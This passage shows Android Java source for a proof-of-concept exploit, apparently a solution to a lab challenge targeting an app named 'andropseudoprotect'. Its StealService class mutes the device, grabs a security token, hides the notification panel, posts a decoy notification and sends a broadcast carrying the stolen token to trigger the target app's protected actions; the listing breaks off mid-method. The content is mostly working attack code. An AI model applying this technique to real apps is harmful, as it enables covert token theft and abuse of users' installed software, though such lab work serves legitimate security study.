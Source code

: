 ```java
        Log.i("PoC", "starting StealService...");  
  
        // start exploit  
        startService(new Intent(this, StealService.class));  
    }  
}
```

**`StealService.java`**
```java
package com.lautaro.andropseudoexploit;  
  
import android.app.Service;  
import android.app.NotificationManager;  
import android.content.*;  
import android.os.*;  
import android.media.AudioManager;  
import android.util.Log;  
  
import java.io.*;  
import java.util.*;  
  
public class StealService extends Service {  
  
    private static final String V_PKG = "com.eightksec.andropseudoprotect";  
    private static final String ACT_START = V_PKG + ".START_SECURITY";  
    private static final String ACT_STOP = V_PKG + ".STOP_SECURITY";  
    private static final String ACT_STARTED = V_PKG + ".SECURITY_STARTED";  
    private static final String ACT_DONE = V_PKG + ".DECRYPTION_COMPLETE";  
    private static final String EXTRA_TOKEN = "security_token";  
  
    private BroadcastReceiver rx;  
    private String token;  
  
    @Override  
    public int onStartCommand(Intent i, int f, int id) {  
        new Thread(this::pwn).start();  
        return START_NOT_STICKY;  
    }  
  
    private void pwn() {  
        // mute  
        muteDevice();  
  
        token = getToken();  
        if (token == null) { stopSelf(); return; }  
        Log.i("PoC", "token=" + token);  
  
        hideNotificationPanel();  
        postDummyNotification();  
  
        register();  
  
        Intent s = new Intent(ACT_START)  
                .setPackage(V_PKG)  
                .putExtra(EXTRA_TOKEN, token);  
        sendBroadcast(s);  
        Log.i("PoC", "START_SECURITY sent – waiting SECURITY_STARTED ...");  
    }  
  
    private void muteDevice() {  
        try {  
            AudioManager am = (AudioManager) getSystemService(Context.AUDIO_SERVICE);  
            if (am != null) {  
```